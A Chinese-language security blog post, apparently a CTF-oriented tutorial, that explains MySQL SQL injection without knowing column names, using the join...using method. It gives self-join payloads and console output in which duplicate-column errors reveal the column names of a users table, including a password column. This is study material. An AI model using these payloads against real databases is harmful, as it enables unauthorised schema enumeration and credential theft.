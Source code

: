```yaml
---
title: "MySQL 无列名注入的几种方式"
date: 2022-08-29T12:35:10+08:00
lastmod: 2022-08-29T12:35:10+08:00
draft: false
author: "X1r0z"

tags: ['mysql','sqli','ctf']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


总结一下无列名注入的几种方式



## join...using

利用条件: 能显示报错信息

payload 如下

```sql
select * from (select * from users a join users b)c;
```

原理是用 join 连接两张表时, 遇到重复的列名会报错, 并把这个报错的列名显示出来

```sql
mysql> select * from (select * from users a join users b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from (select * from users a join users b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'username'
mysql> select * from (select * from users a join users b using(id,username))c;
ERROR 1060 (42S21): Duplicate column name 'password'
```

通过 using 可以声明连接时的关联条件, 类似于平常写 inner join 时候的 `on a.id = b.id`, 这样就可以避免该字段重复而报错

这里设置别名的时候省略了 `as`, 完整的写法如下

```sql
select * from (select * from users as a join users as b) as c
```

join 在连接不同表时不需要别名, 因为两张表本身就不一样, 但是我们把 users 自身连接起来时需要设置别名以对两张表进行区分, 否则会报错 `ERROR 1066 (42000): Not unique table/alias: 'users'`
